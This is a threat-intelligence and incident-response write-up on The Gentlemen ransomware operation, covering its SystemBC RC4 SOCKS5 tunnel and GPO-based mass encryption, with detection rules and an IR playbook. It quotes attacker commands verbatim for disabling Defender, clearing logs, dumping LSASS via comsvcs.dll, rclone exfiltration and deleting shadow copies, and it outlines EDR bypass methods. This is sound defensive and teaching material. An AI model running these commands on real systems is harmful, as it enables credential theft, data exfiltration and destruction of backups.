

# The Gentlemen RaaS + SystemBC — GPO-weaponised ransomware with custom RC4 SOCKS5 proxy

## TL;DR

Check Point Research published on 27 April 2026 a DFIR-style write-up of a real intrusion where an affiliate of **The Gentlemen RaaS** (active since September 2025, ~320 public victims and ~240 in Q1 2026) leveraged **SystemBC** as a custom RC4-encrypted SOCKS5 proxy to tunnel post-foothold traffic to a Russian-speaking e-crime C2. The affiliate closed the intrusion by deploying the ransomware payload through the launcher's `--gpo` flag, which rewrites `gpttmpl.inf` and `ScheduledTasks.xml` inside SYSVOL and forces `Invoke-GPUpdate` for near-simultaneous encryption across every domain-joined host. Telemetry harvested from the seized SystemBC C2 panel exposes **1,570+ corporate victim hosts**; Silent Push, tracking a parallel cluster on **AS213790**, reports more than **10,340 IPs** and a typical dwell time of ~38 days. The initial-access vector is explicitly *unconfirmed* by Check Point for this specific case, but the operator's historical pattern leans on **valid accounts** purchased from initial access brokers or perimeter exploitation of FortiGate / SimpleHelp-class edge devices. File encryption is **X25519 + XChaCha20** AEAD, so a crypto-bug shortcut to decryption is not available — the only realistic non-paid recovery window is the per-session RC4 key resident in RAM on the SystemBC host.

## Attribution and confidence

- **Cluster name (Check Point / ASEC / Group-IB):** The Gentlemen Ransomware Group / RaaS.
- **Aliases:** none widely standardised yet. ASEC and Group-IB track the cluster under the same display name. No firm overlap with Conti / LockBit / BlackCat heritage in public reporting, though the operational playbook (SystemBC proxy + GPO push) echoes Conti and Black Basta tradecraft.
- **Vendor that discovered:** **Check Point Research**, 27 April 2026 DFIR-style write-up. Independent corroboration from **The Hacker News** (SystemBC C2 panel review, 1,570+ victims), **BleepingComputer**, **Bitsight** (SystemBC long-term tracking), **Silent Push** (10,340+ IP infrastructure cluster on AS213790), **Trend Micro** (cluster unmasking), and **Group-IB** (TTP attribution to the same RaaS brand).
- **Confidence:**
  - **high** for the RaaS attribution: the seized C2 panel, the `--gpo` launcher flag, the SystemBC RC4 handshake fingerprint and the SYSVOL drop pattern are independently reproduced across at least four vendor write-ups.
  - **high** for the SystemBC + GPO tradecraft: protocol-level reverse-engineering by Check Point matches the on-disk artefacts captured during the IR engagement.
  - **low** for any nation-state nexus: this is purely financially motivated e-crime in the Russian-speaking RaaS ecosystem. There is **no** confirmed link to a state-aligned cluster, despite some superficial overlap of toolchain choices.
- **Victimology:** small-to-medium enterprise (~70%) plus mid-market enterprise, geographically concentrated in North America, Europe, LATAM and Africa. Undercode Testing documents a 45-day dwell case in African critical infrastructure. Sectors: manufacturing, healthcare, professional services, retail and public sector — a generalist e-crime targeting profile rather than a specialist vertical.
- **Genealogy / link with previous repo cases:** none in the diary yet. This is the first dedicated RaaS deep-dive in the series. Compare with Day 04 VECT 2.0 (modern AEAD ransomware that nonetheless shipped a crypto bug) and with future Akira / Medusa case studies for affiliate hand-off tradecraft.

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Initial Access | T1078, T1190 | Vector unconfirmed by Check Point; operator's historical pattern is valid accounts via VPN or perimeter exploits (FortiOS CVE-2024-55591 class auth bypass) |
| Execution and Defense Evasion | T1059.001, T1059.003, T1562.001, T1562.002, T1562.004 | PowerShell + cmd; SystemBC dropper at `C:\ProgramData\update.exe` or `%APPDATA%\Microsoft\winsrv.exe`; `sc.exe stop WinDefend`, `Set-MpPreference -DisableRealtimeMonitoring $true`, NTDLL unhooking, BYOVD `RTCore64.sys` |
| Persistence | T1053.005, T1543.003, T1484.001 | Scheduled task masquerading as `MicrosoftEdgeUpdateTaskMachineCore`, service install, and **GPO modification** (gPLink + Scheduled Tasks XML inside SYSVOL) |
| Credential Access | T1003.001 | LSASS dump via `comsvcs.dll!MiniDump`, nanodump (handle duplication via Process Explorer driver), DPAPI masterkeys, TokenBroker / WAM refresh tokens |
| Discovery + Lateral Movement | T1046, T1482, T1021.001, T1021.002, T1021.006 | Advanced IP Scanner, AdFind, ADExplorer, BloodHound SharpHound; Impacket smbexec / wmiexec / psexec.py routed over the SOCKS5/RC4 tunnel; RDP, SMB, WinRM |
| Command and Control | T1090.002, T1573.001 | **SystemBC custom RC4 SOCKS5 over plain TCP** — 100-byte handshake (50 B RC4 key + 50 B RC4-encrypted init payload); no TLS, no SNI |
| Exfiltration | T1041 | `rclone copy \\fileserver\share remote:bucket --transfers=64` routed over the same SOCKS5 tunnel; no separate egress channel |
| Impact | T1486, T1490 | `--gpo` flag rewrites `gpttmpl.inf` + `ScheduledTasks.xml`, forces `Invoke-GPUpdate /Force`; X25519 + XChaCha20 AEAD; `vssadmin delete shadows /all /quiet`; `bcdedit /set {default} recoveryenabled No` |



The diagram shows the victim AD enterprise on the left (numbered stages 1-8 from foothold through GPO-driven mass encryption) and the SystemBC C2 fabric on the right (handshake fingerprint, command set, infrastructure metadata). The bidirectional arrow between stages 5-6 and the C2 cluster captures the persistent SOCKS5/RC4 tunnel that carries every byte of post-foothold traffic — lateral movement, credential exfiltration and rclone bulk staging all share the same socket. The detection-anchors box at the bottom maps each lane to the rules in `sigma/`, `kql/` and `yara/`.

## Stage-by-stage detail

### Initial Access

Check Point explicitly states the initial-access vector is **not confirmed** for this specific case. The most likely candidates, ranked by the operator's historical tradecraft:

1. **Valid accounts** purchased from an initial access broker. The Russian-speaking e-crime market continuously sells corporate VPN, RDP and Citrix credentials at USD 200-3,000 per access. The Gentlemen affiliates have been documented as bulk buyers.
2. **Perimeter exploitation** of internet-facing assets. The RaaS operator maintains an operational watchlist of ~14,700 vulnerable FortiGate appliances; several of those carry **CVE-2024-55591** (FortiOS / FortiProxy auth bypass via crafted Node.js websocket). SimpleHelp KEV adds (CVE-2024-57726 / CVE-2024-57728, 24 April 2026) are a parallel access path used by adjacent e-crime clusters.

MITRE: `T1078`, `T1190`.

### Execution and Defense Evasion

SystemBC is dropped as `update.exe` to `C:\ProgramData\` or `winsrv.exe` to `%APPDATA%\Microsoft\`. The affiliate immediately neutralises endpoint defences before any noisy step:

```cmd
sc.exe stop WinDefend
sc.exe config WinDefend start= disabled
powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $true"
powershell -Command "Set-MpPreference -ExclusionPath 'C:\ProgramData'"
sc.exe stop "Veeam Backup Service"
sc.exe stop "MSSQLSERVER"
sc.exe stop "Backup Exec Agent Browser"
wevtutil cl Security
wevtutil cl System
```

EDR bypass tradecraft observed in the engagement:

- **NTDLL unhooking** — direct read of the on-disk NTDLL image to restore the inline hooks that the EDR placed in process memory.
- **Direct syscalls** via Hell's Gate / SysWhispers3 templates, which resolve `Nt*` syscall numbers from the in-memory NTDLL and issue `syscall` instructions from a clean stub, bypassing the user-mode hook surface.
- **BYOVD** using `RTCore64.sys` (MSI Afterburner driver, signed, well-known to KEV-class abuse). The driver exposes arbitrary physical-memory read/write to user mode, which the loader uses to clear the EDR's kernel callback registrations.

MITRE: `T1059.001`, `T1059.003`, `T1562.001`, `T1562.002`, `T1562.004`.

### Persistence

Scheduled-task masquerade plus GPO weaponisation. The scheduled-task name is chosen to blend with Microsoft Edge update infrastructure:

```powershell
schtasks /create /tn "MicrosoftEdgeUpdateTaskMachineCore" `
    /tr "C:\ProgramData\update.exe" /sc onlogon /rl highest /f
```

The durable persistence anchor is the **GPO weaponisation**. The affiliate drops a Scheduled Tasks XML inside the SYSVOL Group Policy path:

```
\\<DC>\SYSVOL\<dom>\Policies\{GUID}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
```

The XML body registers a scheduled task on every machine the GPO is linked to, on the next gpupdate cycle. Because GPO objects are replicated by FRS / DFSR across all domain controllers, the persistence survives reimaging a single DC. The Sigma rule in this folder (`sigma/gpo_weaponization_systembc.yml`) matches the SMB-side `EventID 5145` write to `\Machine\Scripts\Startup\` or `ScheduledTasks.xml` plus the DC `EventID 5136` `gPLink` / `gPCMachineExtensionNames` / `gPCFileSysPath` attribute change. MITRE: `T1053.005`, `T1543.003`, `T1484.001`.

### Credential Access

LSASS dumping is performed via the well-known LOLBin `comsvcs.dll!MiniDump` to keep the dumper off-disk and to defeat AMSI-style script blockers:

```cmd
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PID_lsass> C:\ProgramData\dump.bin full
```

Plus a fall-back **nanodump** invocation that uses handle-duplication via the Process Explorer driver to avoid `OpenProcess(PROCESS_VM_READ, ..., lsass.exe)` on the EDR telemetry, and DPAPI masterkey theft for browser cached credentials, refresh tokens from TokenBroker / WAM, and credential-manager blobs. Kerberos abuse follows: **Kerberoasting** of service accounts with weak SPN passwords and **AS-REP roasting** of accounts with `DONT_REQ_PREAUTH`. MITRE: `T1003.001`.

### Discovery and Lateral Movement

Discovery and lateral movement run over the SOCKS5 tunnel so the affiliate never reveals a real source IP inside the enterprise:

- **Advanced IP Scanner** — host enumeration on every reachable subnet.
- **AdFind** + **ADExplorer** — AD object dump (`adfind -f "objectcategory=user" -csv`).
- **BloodHound SharpHound** — collection methods `Default,LoggedOn,GPOLocalGroup`, which produces the graph used to plan the GPO push.
- **Impacket** — `smbexec.py`, `wmiexec.py`, `psexec.py` for command execution on neighbours; **WinRM** for PowerShell remoting where firewall policy permits 5985/5986.

MITRE: `T1046`, `T1482`, `T1021.001`, `T1021.002`, `T1021.006`.

### Command and Control

SystemBC tunnels everything through a plain-TCP SOCKS5 channel with custom RC4 encryption. There is **no TLS, no certificate, no SNI** — the protocol does not even attempt to look like HTTPS, which is the easiest detection anchor. Each session is bootstrapped with a **100-byte initial packet**:

- Bytes 0-49: per-session RC4 key, generated on the SystemBC host via `RtlGenRandom`.
- Bytes 50-99: RC4-encrypted initial payload (`type, index, length` header plus bot identification).

```c
// SystemBC handshake — pseudo-Ghidra reconstruction
BYTE key[50];
BYTE encinit[50];
RtlGenRandom(key, 50);                  // per-session RC4 key
build_init_payload(encinit);            // header: type, index, length + bot id
rc4_set_key(&state, key, 50);
rc4_encrypt(&state, encinit, 50);
BYTE pkt[100];
memcpy(pkt,     key,     50);
memcpy(pkt+50,  encinit, 50);
send(sock, pkt, 100, 0);
```

Commands supported by the SystemBC protocol: `proxy_init`, `download_dll`, `download_exe`, `shellcode_exec`, `tor_pivot`. The lack of TLS makes the beacon trivially detectable on the wire by **shape** rather than by **content**: a sustained outbound TCP socket from a non-browser process to a public IP on a commodity port (80, 443, 4443, 8080, 8443) where the first 100 bytes never present a TLS Client Hello. MITRE: `T1090.002`, `T1573.001`.

### Exfiltration

```cmd
rclone.exe copy \\fileserver\share remote:bucket `
    --transfers=64 --multi-thread-streams=8 `
    --config C:\ProgramData\rc.conf
```

All traffic flows over the same SOCKS5 tunnel — there is no separate egress for exfil. The configuration file at `C:\ProgramData\rc.conf` typically points to an S3-compatible bucket (Wasabi, Backblaze, Cloudflare R2 or a self-hosted MinIO behind a Cloudflare proxy). MITRE: `T1041`.

### Impact

The launcher's `--gpo` flag automates three operations in a single invocation:

1. Locate the target GPOs by reading the BloodHound output for OUs that cover the production host fleet.
2. Modify `Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf` and `Machine\Preferences\ScheduledTasks\ScheduledTasks.xml` inside `\\<DC>\SYSVOL\<dom>\Policies\{GUID}\` to register the encryptor as an on-logon scheduled task.
3. Force replication and refresh: `Invoke-GPUpdate -Computer <host> -Force` against every reachable computer in the targeted OUs.

The result is **near-simultaneous encryption** across the entire AD domain — typically within a 15-minute window across thousands of hosts. Encryption uses **X25519 + XChaCha20** AEAD via statically-linked libsodium, so the key-exchange and the symmetric cipher are both modern and free of classical rookie bugs (no key reuse, no IV reuse, no broken padding). Pre-encryption housekeeping:

```cmd
vssadmin delete shadows /all /quiet
bcdedit /set {default} recoveryenabled No
bcdedit /set {default} bootstatuspolicy ignoreallfailures
wmic shadowcopy delete
wbadmin delete catalog -quiet
sc.exe stop "Veeam Backup Service"
sc.exe stop "MSSQLSERVER"
sc.exe stop "BackupExecAgentBrowser"
```

MITRE: `T1486`, `T1490`.

## RE notes

SystemBC has been reverse-engineered repeatedly since 2019 (Proofpoint), so this section captures the deltas observed in the Check Point 2026 sample rather than the well-known parts.

| Component | Language / build | Notes |
|---|---|---|
| SystemBC | C, MSVC, ~30-40 KB PE | C2 protocol: 100-byte handshake (50 B random key + 50 B RC4-encrypted init), `type, index, length` header, commands `proxy_init`, `download_dll`, `download_exe`, `shellcode_exec`, `tor_pivot`; modest anti-analysis (tick-count delta + `IsDebuggerPresent` + `CheckRemoteDebuggerPresent`); no packer in the wild sample, plain MSVC compilation with optimisation level `/O2` |
| The Gentlemen encryptor | C++, statically linked libsodium | X25519 ephemeral keypair per host; ChaCha20-derived stream + XChaCha20 AEAD on file body; embedded `--gpo` flag triggers SYSVOL weaponisation path; `--exclude` accepts a comma-separated list of extensions (`.exe,.dll,.sys,.msi`) to avoid bricking the boot loader; deletes shadow copies, disables recovery and kills backup services before any `WriteFile` on victim data |

**SystemBC RC4 protocol — operational reverser pointers:**

- **Anchor the 100-byte first packet, not the 50-byte key.** The key itself is `RtlGenRandom`-derived and therefore uniformly random — there is no static byte to match. The structural anchor is the *shape*: exactly 100 bytes sent before any inbound byte, followed by a server `recv` of variable length encrypted with the same key.
- **Hook `RtlGenRandom`** in the sample's process and dump the first 50 bytes after the call to recover the per-session key from a live host. The key is held in a heap allocation referenced by the RC4 state structure and is wiped on `closesocket`, so the dump must happen while the tunnel is up.
- **The RC4 KSA loop is the YARA strings anchor.** The KSA initialises `S[i] = i` then performs the classic permutation; the swap macro compiles to a recognisable 12-byte sequence on MSVC `/O2`. Combine with the SOCKS5 magic bytes and an under-400 KB PE filter to keep false positives manageable.
- **No DGA, no fronted CDN.** C2 IPs are hardcoded in the `.data` section, encrypted with a per-build XOR key, decrypted on first use into a heap buffer. Pulling the static configuration from a sample is therefore an exercise in finding the XOR routine and the encrypted blob, both of which sit a few hundred bytes apart in the `.data` section.
- **`tor_pivot` is the only command that switches transport.** It opens an additional socket to a hardcoded Tor SOCKS5 (typically `127.0.0.1:9050` after a `tor.exe` drop or to a remote Tor relay), so the operator can switch C2 to a `.onion` endpoint if the clear-net IPs burn. Detection-wise, this means a SystemBC host that suddenly opens 9050 to localhost has just been told to migrate.

**The Gentlemen encryptor — operational reverser pointers:**

- The X25519 keypair is generated per-host via libsodium `crypto_kx_keypair`; the public half is embedded in the ransom note header, the private half is wiped from memory after the symmetric subkey is derived. There is **no master key** server-side that decrypts every victim — each host has its own keypair, and the operator's private key only unlocks the encrypted X25519 public halves stored in the note headers.
- File body is XChaCha20-Poly1305 with a 24-byte nonce drawn from `randombytes_buf`. The 16-byte Poly1305 tag is appended to the ciphertext. There is no key reuse, no nonce reuse, no truncation.
- **The only realistic decryption channel for non-paid recovery is a live RAM acquisition of a host that has not yet completed its encryption pass**, because the per-host X25519 private key is still in the encryptor process memory until it is explicitly wiped after the final `WriteFile`. Once the encryptor exits cleanly, that window is gone.

## Detection strategy

### Telemetry that matters

- **Sysmon EID 1** (`process_creation`): `sc.exe stop` / `sc.exe config` targeting `WinDefend`, Veeam, MSSQL, Backup Exec; `rundll32.exe ... comsvcs.dll, MiniDump`; `vssadmin delete shadows`; `bcdedit /set ... recoveryenabled No`; `wevtutil cl Security` / `wevtutil cl System`; `schtasks /create /tn "MicrosoftEdgeUpdate*"` from a non-`SYSTEM` user context.
- **Sysmon EID 3** (`network_connection`): outbound TCP from a non-browser process to a non-private IP on a commodity port (80, 443, 4443, 8080, 8443) with no matching TLS-talking baseline. This is the primary anchor for the SystemBC tunnel.
- **Sysmon EID 7** (`image_loaded`): `RTCore64.sys` loaded into kernel from a non-`%SystemRoot%\System32\drivers\` path is a strong BYOVD signal.
- **Sysmon EID 11** (`file_event`): writes under `\\<DC>\SYSVOL\<dom>\Policies\{GUID}\Machine\Preferences\ScheduledTasks\` from a non-administrative client; writes to `\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf`; writes to `\Machine\Scripts\Startup\` and `\Machine\Scripts\scripts.ini`.
- **Sysmon EID 13** (`registry_event`): writes to `HKLM\SYSTEM\CurrentControlSet\Services\WinDefend\Start` setting value `4` (`SERVICE_DISABLED`).
- **Windows Security EID 5136 / 5137** on the DC for GPO attribute changes (`gPLink`, `gPCMachineExtensionNames`, `gPCFileSysPath`, `versionNumber`). Bursts of three or more changes in a 5-minute window on the same `groupPolicyContainer` object are the single highest-signal anchor in the entire kill chain.
- **Windows Security EID 5145** (`detailed_file_share`) on the DC for SMB writes to `\SYSVOL\...\Policies\{GUID}\` from a non-Tier-0 account.
- **Windows Security EID 4688** for `wevtutil cl Security`, `wevtutil cl System` (audit log wipe), `vssadmin delete shadows`, `bcdedit /set recoveryenabled No`.
- **PowerShell EID 4103 / 4104** for `Set-MpPreference -DisableRealtimeMonitoring $true`, `Invoke-GPUpdate -Force`, `Get-ADComputer | ForEach-Object { ... }` enumeration patterns.

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | [`sigma/gpo_weaponization_systembc.yml`](./sigma/gpo_weaponization_systembc.yml) | DC EID 5136 `groupPolicyContainer` attribute changes (`gPLink`, `gPCMachineExtensionNames`, `gPCFileSysPath`) **or** SMB EID 5145 writes to `\SYSVOL\...\Machine\Scripts\Startup\` / `scripts.ini` / `\User\Scripts\Logon\` with `AccessMask 0x100002`, filtered to drop machine-account (replication) traffic |
| KQL (Microsoft Sentinel / Defender XDR) | [`kql/tcp_beacon_no_tls_systembc.kql`](./kql/tcp_beacon_no_tls_systembc.kql) | Sustained outbound TCP from a non-browser process to a public IP on commodity ports, joined left-anti to a 30-day baseline of (process, IP) pairs that actually talk TLS, requiring 20+ connections over a 60+ minute window |
| YARA | [`yara/SystemBC_RC4_Heuristic.yar`](./yara/SystemBC_RC4_Heuristic.yar) | PE under 400 KB with SOCKS5 magic bytes **or** RC4 KSA/swap macro fingerprints, plus three SystemBC string heuristics (`socks5`, `ID:`, `4001`, common user-agent) and three Winsock API imports |

### Threat hunting hypotheses

- **H1 — SOCKS5/RC4 beacon shape.** A non-browser, non-Office process opening a TCP socket to a public IP on a non-443 port without a TLS Client Hello within the first 100 bytes is a SystemBC-class C2. Discriminator from benign legacy LOB apps: the legitimate ones almost always reuse the same destination (process, IP, port) tuple for weeks; SystemBC rotates IPs but keeps the same process name (`update.exe`, `winsrv.exe`, `svchost.exe` child of a user process). Use the KQL `TlsTalkers` left-anti pattern to remove the LOB noise.
- **H2 — GPO SYSVOL anomaly.** Writes to `\\<DC>\SYSVOL\<dom>\Policies\{GUID}\Machine\Preferences\ScheduledTasks\` from any account that is not a documented GPO administrator during a change window. Expected benign: GPO admin during change windows (low daily volume, tied to a ticket). Suspect: a non-admin service account modifying GPO files in the minutes preceding a wave of `EventID 4688` records for `vssadmin delete shadows` across the fleet.
- **H3 — LSASS dump via `comsvcs.dll`.** `rundll32.exe` invoked with `comsvcs.dll, MiniDump` and a numeric PID argument is overwhelmingly malicious in production; the only legitimate caller is a manual administrator using the technique to triage a crash. Combine Sysmon EID 1 (`CommandLine` match) with EID 10 (`SourceImage = rundll32.exe`, `TargetImage = lsass.exe`, `GrantedAccess = 0x1410` or `0x1010`) for a near-zero-FP detection.
- **H4 — BYOVD `RTCore64.sys` load.** `Sysmon EID 6` (driver load) for `RTCore64.sys` from a non-default path, or from a path under `C:\ProgramData\` / `C:\Users\<user>\AppData\`, is a strong BYOVD indicator. Cross-reference Microsoft's Vulnerable Driver Blocklist hash list to flag known-bad versions.

## Incident response playbook

### First 60 minutes (triage)

1. **Stop GPO propagation immediately.** Identify the malicious GPO `{GUID}` from the SYSVOL write events and unlink it via `Set-GPLink -LinkEnabled No` on every OU it touches. **Do not delete the GPO yet** — preserve it forensically.
2. **Block egress** to the SystemBC C2 IPs / ports at perimeter firewall and proxy. If the C2 list is not yet known, block the affected hosts at the switchport (NAC quarantine) and let the SOC enumerate the C2 from netflow.
3. **Capture RAM** on at least one infected host (WinPMem / DumpIt / Magnet RAM Capture). The per-session RC4 key and any in-flight X25519 private key are only in memory.
4. **Snapshot** `\\<DC>\SYSVOL\<dom>\Policies\{GUID}\` (file-level copy with timestamps preserved) and the DC event logs (`Security`, `System`, `Directory Service`).
5. **Rotate `krbtgt` twice with a 10-hour gap** if Domain Admin was observed in any 4624 event after T0; otherwise schedule the double rotation as part of the recovery plan.
6. **Suspend** any account that authored a GPO write outside the documented change window, plus every account that successfully logged on (`EventID 4624`) to a SystemBC-tunnel host since T0.
7. **Do not power off** — losing the per-session RC4 key removes the only realistic non-paid decryption path.

### Artifacts to collect

| Artifact | Path | Tool | Why it matters |
|---|---|---|---|
| Full memory dump | host RAM | WinPMem / DumpIt / Magnet RAM Capture | SystemBC per-session RC4 key, X25519 private key while the encryptor is mid-run |
| Malicious GPO tree | `\\<DC>\SYSVOL\<dom>\Policies\{GUID}\` | `robocopy /MIR /COPY:DAT /DCOPY:DAT` | Forensic chain-of-custody for the weaponised GPO, including `ScheduledTasks.xml` and `GptTmpl.inf` |
| DC Security log | `%windir%\System32\winevt\Logs\Security.evtx` | EvtxECmd | 5136 / 5137 GPO attribute changes; 5145 SYSVOL SMB writes; 4624 / 4672 logons; 4688 process creations |
| DC Directory Service log | `%windir%\System32\winevt\Logs\Directory Service.evtx` | EvtxECmd | Replication trace for the malicious GPO across DCs |
| Sysmon log | `%windir%\System32\winevt\Logs\Microsoft-Windows-Sysmon%4Operational.evtx` | EvtxECmd | EID 1 / 3 / 6 / 7 / 11 / 13 — SystemBC drop, BYOVD load, LSASS dump, GPO write |
| LSASS dump trace | host event log | EvtxECmd | `comsvcs.dll, MiniDump` invocation timestamp + PID + caller account |
| Scheduled task XML | `<DC>\SYSVOL\<dom>\Policies\{GUID}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml` | manual copy | Weaponised task body — the command line that will run on every domain-joined host |
| GptTmpl.inf | `<DC>\SYSVOL\<dom>\Policies\{GUID}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf` | manual copy | Security-template body — may grant attacker accounts new privileges fleet-wide |
| Prefetch | `C:\Windows\Prefetch\*.pf` | PECmd | Evidence-of-execution for `update.exe`, `winsrv.exe`, `rclone.exe`, encryptor binary |
| Amcache | `C:\Windows\AppCompat\Programs\Amcache.hve` | AmcacheParser | Per-binary SHA1, first-seen timestamps |
| ShimCache | `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\AppCompatCache` | AppCompatCacheParser | Execution evidence for binaries that have since been deleted |
| SRUM | `C:\Windows\System32\sru\SRUDB.dat` | SrumECmd | Network egress volume per process — corroborates the SystemBC tunnel volume and rclone exfil size |
| Scheduled Tasks | `C:\Windows\System32\Tasks\` | manual | Local persistence tasks (`MicrosoftEdgeUpdateTaskMachineCore`) created outside the documented baseline |
| MFT + `$UsnJrnl:$J` | `\\?\C:\$MFT` + `\\?\C:\$Extend\$UsnJrnl:$J` | MFTECmd | Timeline of file create/rename/delete around T0 |

### IR queries and commands

```powershell
# List recently changed GPOs (last 7 days)
Get-GPO -All | Where-Object { $_.ModificationTime -gt (Get-Date).AddDays(-7) } |
    Format-Table DisplayName, ModificationTime, Owner

# Identify GPO links across OUs
Get-ADOrganizationalUnit -Filter * |
    ForEach-Object {
        $links = (Get-GPInheritance -Target $_.DistinguishedName).GpoLinks
        foreach ($l in $links) {
            [PSCustomObject]@{
                OU      = $_.DistinguishedName
                GPO     = $l.DisplayName
                Enabled = $l.Enabled
            }
        }
    } | Export-Csv .\gpo_links.csv -NoTypeInformation

# Unlink the suspect GPO from every OU it touches (do not delete yet)
$gpoName = '<malicious_gpo_name>'
Get-ADOrganizationalUnit -Filter * | ForEach-Object {
    $links = (Get-GPInheritance -Target $_.DistinguishedName).GpoLinks
    if ($links.DisplayName -contains $gpoName) {
        Set-GPLink -Name $gpoName -Target $_.DistinguishedName -LinkEnabled No
    }
}

# Force domain controllers to converge the unlink
foreach ($dc in (Get-ADDomainController -Filter *).HostName) {
    repadmin /syncall $dc /AeD
}
```

```kql
// Sentinel — SystemBC tunnel beacon shape
DeviceNetworkEvents
| where Timestamp > ago(7d)
| where ActionType == "ConnectionSuccess"
| where RemotePort !in (53, 80, 88, 123, 135, 389, 443, 445, 636, 3389)
| where InitiatingProcessFileName has_any
    ("svchost", "rundll32", "regsvr32", "update", "winsrv")
| summarize Conns      = count(),
            UniquePorts = dcount(RemotePort),
            First       = min(Timestamp),
            Last        = max(Timestamp)
    by DeviceId, RemoteIP, InitiatingProcessFileName
| where Conns > 50 and UniquePorts < 5
```

```kql
// Sentinel — GPO burst on the DC
SecurityEvent
| where TimeGenerated > ago(30m)
| where EventID in (5136, 5137)
| where ObjectClass =~ "groupPolicyContainer"
| summarize ChangeCount = count() by ObjectDN, bin(TimeGenerated, 5m)
| where ChangeCount >= 3
```

```kql
// Sentinel — LSASS dump via comsvcs.dll
DeviceProcessEvents
| where Timestamp > ago(7d)
| where FileName =~ "rundll32.exe"
| where ProcessCommandLine has_all ("comsvcs.dll", "MiniDump")
| project Timestamp, DeviceName, AccountName,
          InitiatingProcessFileName, ProcessCommandLine
```

```bash
# Volatility 3 — netscan + malfind on the captured RAM image
vol -f mem.raw windows.netscan.NetScan \
    | grep -E ':(80|443|4443|8080|8443) ' | sort -u
vol -f mem.raw windows.malfind.Malfind
vol -f mem.raw windows.pslist.PsList
vol -f mem.raw windows.cmdline.CmdLine | grep -E 'rundll32|comsvcs|MiniDump'
```

### Containment, eradication, recovery

- **Containment.** Isolate hosts that opened TCP egress to the SystemBC C2 (NAC quarantine, **do not power off**); revoke any account observed in `EventID 4624` on those hosts since T0; lock the malicious GPO (`Set-GPLink -LinkEnabled No` on every OU). Rotate `krbtgt` twice with a 10-hour gap if Domain Admin compromise is confirmed. Revoke all refresh tokens for cloud-identity tenants that federate to the on-prem AD.
- **Eradication.** Reimage every encrypted host; **wipe + reimage** any host that ran the SystemBC binary even if it was not yet encrypted (the EDR-disable plus BYOVD path makes a clean on-disk removal unreliable). Forensically preserve and then delete the malicious GPO. Rebuild Tier-0 from a known-good gold image; do not restore Tier-0 hosts from any backup that was online during the intrusion window.
- **Recovery.** Restore from immutable backups only — backups that were online during the dwell window are presumed tampered. Forest recovery is on the table if Domain Admin and DCSync were observed. Monitor for 90 days at elevated EDR + DC audit cadence. Migrate the GPO admin role to a dedicated PAW (Privileged Access Workstation) with just-in-time elevation.
- **What NOT to do.**
  - Do **not** delete the malicious GPO before forensic acquisition — you lose the only artefact that proves how the encryptor reached every host.
  - Do **not** power off hosts before the RAM capture — you lose the per-session RC4 key and any in-flight X25519 private key.
  - Do **not** pay the ransom without explicit legal advice and OFAC sanction screening on the wallet — Russian-speaking RaaS payments routinely hit sanctioned addresses.
  - Do **not** restore SAM / NTDS before rotating `krbtgt` twice — the attacker's TGTs would re-validate against the restored database.
  - Do **not** assume the operator left only the artefacts you found. Hunt every host that authenticated to a SystemBC-tunnel host since T0.

### Recovery validation

- Seven days without new GPO modifications outside the documented change window.
- Seven days without new SystemBC-shape TCP egress (non-browser process, public IP, commodity port, no TLS) anywhere on the fleet.
- Defender XDR / EDR telemetry back to baseline volumes per host class.
- Every credential observed in `EventID 4624` on a SystemBC-tunnel host since T0 has been rotated.
- `krbtgt` rotated twice with a 10-hour gap; refresh tokens revoked across all federated cloud tenants.
- All backups validated as restorable on a clean-room replica before declaring recovery complete.

## IOCs

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| family | SystemBC | C2 proxy / loader used by The Gentlemen affiliate | high | Check Point Research |
| family | The Gentlemen | RaaS brand active since September 2025 | high | Check Point Research, Group-IB |
| ttp | GPO mass `gPLink` + SYSVOL Startup script writes | The Gentlemen RaaS distribution pattern | high | Check Point Research |
